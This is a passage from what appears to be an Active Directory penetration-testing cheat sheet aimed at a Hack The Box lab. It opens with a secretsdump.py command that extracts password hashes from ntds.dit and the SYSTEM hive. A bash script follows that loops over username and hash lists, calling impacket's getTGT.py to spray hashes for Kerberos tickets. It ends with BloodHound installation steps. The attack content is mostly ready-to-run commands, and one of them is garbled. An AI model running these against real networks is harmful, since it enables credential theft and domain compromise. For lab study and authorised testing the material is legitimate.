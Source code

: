 ```
<root@kali:pythonsecretsdump.py -system registry/SYSTEM -ntds Active\ Directory/ntds.dit -hashes lmhash:nthash LOCAL -output hashes-output >  
```

### Brute forcing a user hash given a list of users and hashes by performing TGTs retrieval

Use the script below to iterate through the usernames and hashes. getTGT.py is within impacket \[Script Name: hash-tgt-bruteforce.sh]

```bash
#!/bin/bash 
#Request the TGT with hash

for i in $(cat wordlists/valid.usernames) 
do 
        for j in $(cat wordlists/hashes.ntds) 
        do 
                echo trying $i:$j 
                echo 
                getTGT.py htb.local/$i \-hashes $j:$j    
                echo 
                sleep 5 
        done 
done
```

## Exploitation and Privilege Escalation

### BloodHound

BloodHound is a tool used to visualize Active Directory objects and permissions. It should be run in conjunction with SharpHound which requires you to be a domain member to run it, and it will then enumerate the AD domain and feed the information to BloodHound where you can analyze the data and retrieve information such as a list of domain administrators which are common attack targets.

#### Installation

\[1]

```
apt install bloodhound
```

\[2]

```
wget -O - https://debian.neo4j.com/neotechnology.gpg.key | sudo apt-key add -

echo 'deb https://debian.neo4j.com stable 4.0' > /etc/apt/sources.list.d/neo4j.list

sudo apt-get update

apt-get install apt-transport-https

sudo apt-get install neo4j

systemctl stop neo4j

sudo /usr/bin/neo4j console

./BloodHound.bin --no-sandbox
```
